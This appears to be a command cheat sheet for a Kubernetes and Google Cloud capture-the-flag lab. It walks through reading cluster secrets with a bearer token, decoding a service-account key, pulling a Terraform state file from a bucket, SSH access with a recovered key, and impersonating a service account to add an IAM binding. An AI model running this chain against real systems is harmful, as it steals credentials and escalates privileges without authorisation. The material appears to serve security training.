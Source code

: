 # Commands

<details>
  <summary>Challenge 1</summary>

set cluster IP
#####
    export IP=<IP>

Access API
#####
    curl -k https://$IP/api

Set your token as environment variable.  
#####
    export TOKEN=<token>

Send a request with your token to the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/

You can find out which permissions 'system:authenticated' has on this cluster with a request to this endpoint:  
#####
    curl -k -X POST -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1", "kind":"SelfSubjectRulesReview", "spec":{"namespace":"default"}}' -H "Authorization:Bearer $TOKEN" https://$IP/apis/authorization.k8s.io/v1/selfsubjectrulesreviews

You can also query them by using the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/pods

  <details>
    <summary>Walkthrough</summary>
  
  You can read Kubernetes secrets in the default namespace on the cluster. Which secrets might it hold?  
  #####
      curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/secrets
  
  The secret values are base64 encoded. Decode them to read the value:  
  #####
      echo -n <secret-value> | base64 -d  

  Safe blob to file
  #####
      echo -n <secret-value> | base64 -d  > /tmp/sa_key.json
  
  </details>

</details>


<details>
  <summary>Challenge 2</summary>

set project id
#####
    export PROJECT_ID=nodal-seer-306517

activate service account
#####
    gcloud auth activate-service-account --key-file /tmp/sa_key.json

check service account
#####
    gcloud auth list

  <details>
    <summary>Walkthrough</summary>

  List files on bucket
  #####
    gsutil ls gs://file-uploads-$PROJECT_ID

  Read state file on bucket
  #####
    gsutil cat gs://file-uploads-$PROJECT_ID/default.tfstate

  
  </details>

</details>


# Challenge 3

read state file
#####
    gsutil cat gs://file-uploads-$PROJECT_ID/default.tfstate
    
ssh into vm
      ssh -i <private key file> alice@<compute instance IP> 

# Challenge 4

# Challenge 5

set token as env var
#####
     export CLOUDSDK_AUTH_ACCESS_TOKEN=<function token>

Get project permissions
#####
    gcloud projects get-iam-policy $PROJECT_ID

List the other service accounts on this project:
#####
    gcloud iam service-accounts list

Describe role
#####
    gcloud iam roles describe TerraformPipelineProjectAdmin --project $PROJECT_ID

Describe bindings on SA
#####
    gcloud iam service-accounts get-iam-policy <terraform service account>

## Walkthrough

impersonate and set binding
#####
    gcloud projects add-iam-policy-binding $PROJECT_ID --member=user:<your Google account> --role=roles/viewer --impersonate-service-account <terraform pipeline account>

